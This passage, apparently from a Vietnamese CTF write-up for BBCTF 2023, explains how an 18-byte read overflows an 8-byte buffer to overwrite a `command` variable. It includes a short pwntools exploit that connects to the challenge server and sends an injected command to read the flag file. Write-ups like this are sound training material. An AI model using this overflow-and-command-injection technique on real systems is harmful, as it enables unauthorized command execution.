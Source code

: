 Nhận thấy hàm `read` giá trị biến `buf` tận 18 bytes nhưng ở stack thì chứa 8 bytes là đến biến `command` thế nên chắc chắn sẽ ghi đè lên giá trị của `command`. Thế nên tôi chạy như sau nhập như sau: `AAAAAAAApwd` thì nhận được kết quả. Lúc chơi thì tôi không nhớ hay không biết nên cứ mò hay tìm ra những câu lệnh như `ls, less, head, tail, strings,...` Hay các options của `ls` thì phát hiện flag nó nằm trong thư viện ẩn -> sau đó file `flag.txt` trong thư mục ẩn nên tôi sử dụng câu lệnh: `cat .[^.]*/*` là đọc được file flag. Ôi thật tệ khi tôi đã mất nhiều giờ vào nó.

Có câu lệnh nhanh và ngon hơn mà tôi quên là `sh`. khi nhập `AAAAAAAAsh` thì ta nhận được quyền sh sử dụng các câu lệnh bình thường để đọc file... Còn trên kia là nó giới hạn kích thước nhập vào là có 18 bytes nên cần tìm hiểu câu lệnh ngắn mà vẫn chạy đúng.

```py
from pwn import *

r = remote("pwn.bbctf.fluxus.co.in", 4001)
lst = ['cat .[^.]*/*.txt', 'cat .[^.]*/*','cat .[^.]*/flag*']

payload = b'no\nAAAAA' + b'cat .[^.]*/*'
r.sendline(payload)
r.interactive() 
```

Và nhận được:

![result](/src/2023/BBCTF2023/ez_pwn/result_pwn.png)

### 2: Medium pwn

Tiếp là là bài mà khiến tôi cả đêm không ngủ cả đêm)))).

![title](/src/2023/BBCTF2023/Medium_pwn/00_title_medium_pwn.png)
